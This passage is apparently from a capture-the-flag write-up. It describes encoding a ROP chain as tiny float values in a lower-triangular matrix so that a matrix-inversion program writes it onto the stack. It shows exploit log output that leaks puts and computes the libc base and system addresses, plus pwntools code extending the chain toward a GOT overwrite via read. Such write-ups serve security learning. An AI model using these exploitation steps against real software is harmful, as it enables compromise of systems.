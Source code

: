 If the ROP chain is not too big, we get a lower triangular matrix, with all 1
in the main diagonal. This is a nice matrix, because it's definitely
invertible and the values in the lower part are just the negative of the
original matrix. Turns out this works pretty well and there seems to be no
rounding error when we put it through the `invert_matrix` function.

Locally we get a nice infoleak:

```
[*] exploiting with ropchain:
    0x0000:         0x401c33 pop rdi; ret
    0x0008:         0x603020 got.puts
    0x0010:         0x400a60 puts
[*] rop payload:
    00000000  33 1c 40 00  00 00 00 00  20 30 60 00  00 00 00 00  │3·@·│····│ 0`·│····│
    00000010  60 0a 40 00  00 00 00 00                            │`·@·│····││
    00000018
[*] setting 229 to 2.07582817451e-317
[*] setting 230 to 3.11447916068e-317
[*] setting 231 to 2.07357375297e-317
...
[*] input matrix:
    1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,
    0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,
    0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,
    0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,
    0,0,0,0,0,-2.07583e-317,-3.11448e-317,-2.07357e-317,0,0,0,0,0,0,1,0,
    0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,
[*] result matrix:
[*] leaked:
    00000000  10 11 7e b3  4a 7f                                  │··~·│J·│
    00000006
[*] puts @ 0x7f4ab37e1110
[*] leaked libc base at 0x7f4ab3777000, system at 0x7f4ab37b7d00
```

We then tried it on the server and received no output :( WTF. We speculated a
lot why this might be the case. Whether somehow the input was not parsed the
same way, i.e. the precision of `strtod` was different etc. This was kind of of
demotivating, but nevertheless we continued to construct a exploit that was
working locally. We started off by extending the first ROP:

```python
chain0 = ROP(velf)
# first infoleak libc address
chain0.raw(poprdiret)
chain0.raw(velf.got['puts'])
chain0.raw(velf.symbols['puts'])
# then call read(0, exit@GOT, X)
chain0.raw(poprdiret)
chain0.raw(0)  # stdin
chain0.raw(poprsir15)
chain0.raw(velf.got['exit'])
chain0.raw(0x42)  # dummy values
# call read and hope that rdx is something useful
chain0.raw(velf.symbols['read'])
```
